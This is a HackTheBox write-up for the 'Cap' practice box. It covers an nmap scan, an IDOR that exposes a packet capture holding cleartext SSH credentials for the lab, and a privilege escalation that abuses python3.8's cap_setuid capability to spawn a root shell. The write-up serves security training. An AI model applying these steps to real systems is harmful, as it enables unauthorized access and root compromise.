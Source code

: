 ```yaml
---
title: Cap writeup
date: 2022-06-21 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: [Easy-box]     # TAG names should always be lowercase
img_path: /assets/img/boxes/cap/
image: # Thumbnail 
  src: Cap.png
  width: 1000   # in pixels
  height: 400   # in pixels
---   
```

## Summary
This was a pretty easy box. An IDOR in the webapplication gives a pcap file which includes SSH credentials. Once logged in running linpeas reveals that python has setuid capabilities, allowing us to root the box. 

## Foothold

We will start out by doing a port scan with nmap: 
```console
 Nmap 7.92 scan initiated Sun Jun 12 01:35:44 2022 as: nmap -sC -sV -o nmap/ini.txt 10.129.72.55
Nmap scan report for 10.129.72.55
Host is up (0.074s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
...
```
The box has 3 ports open. 21/tcp which is hosting a ftp service, 22/tcp which is hosting an ssh service and 80/tcp which is hosting a http service. 

When visiting the web application hosted on port 80 we get greeted with the following:

![The admin dashboard](dash.png)

One of the tabs is titled "Security Snapshot (5 Second PCAP + Analysis)". Entering this tab we see that our URL is `http://10.129.85.29/data/1`. Changing the 1 to a 0 gives us access to another `.pcap`{: .filepath} file with a bit more information via an IDOR vulnerability.

![The /data/0 page](idor.png)

Analyzing this file with Wireshark gives us some credentials:

![Wireshark analysis gives credentials sent in cleartext](pcappass.png)

Using the credentials nathan:Buck3tH4TF0RM3! we can login as nathan via ssh.

## Privilege escalation
Once logged in we run linpeas, which gives us some interesting output:
```console
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
We got some different files with capabilities. The most interesting is python3.8 which allows us to use the os.setuid function. this allows us to perform functions as root through python.
```console
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/bash')
root@cap:~# 
```
Rooted!